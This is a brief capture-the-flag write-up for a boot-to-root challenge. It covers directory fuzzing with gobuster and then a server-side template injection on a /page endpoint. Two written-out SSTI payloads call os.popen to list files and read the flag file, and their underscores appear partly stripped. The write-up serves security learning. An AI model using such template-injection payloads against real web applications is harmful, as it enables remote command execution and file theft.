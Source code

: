 ## Challenge 1: Boot-2-Root : FLAG 1
<img width="529" height="943" alt="image" src="https://github.com/user-attachments/assets/b57fafcc-f574-4601-adc6-f204dfbb427d" />

Then gobuster to fuzz the website

<img width="870" height="458" alt="image" src="https://github.com/user-attachments/assets/dc6c66c6-af30-4b3e-ba86-a0e88b510f28" />

So we found /page exists, next we went into that site

It was like this,
<img width="839" height="286" alt="image" src="https://github.com/user-attachments/assets/02363902-0443-4740-8707-51672459a779" />

So we used SSTI injection to find the list of files

`{{ ''._class.mro[1].subclasses()[122].init.globals['builtins']['import_']('os').popen('ls').read() }}`

<img width="869" height="383" alt="image" src="https://github.com/user-attachments/assets/568e72db-e256-49c1-9ec1-d3c2011da64f" />

So we have found that there is a file named Fl4@G_0n3.txt.

Then I used the payload to print the contents of the file Fl4@G_0n3.txt

`{{ ''._class.mro[1].subclasses()[122].init.globals['builtins']['import_']('os').popen('cat Fl4@G_0n3.txt').read() }}`

Hence we got the flag!

<img width="445" height="196" alt="image" src="https://github.com/user-attachments/assets/c2fb057e-33ab-4b94-81a2-69d3548782e8" />
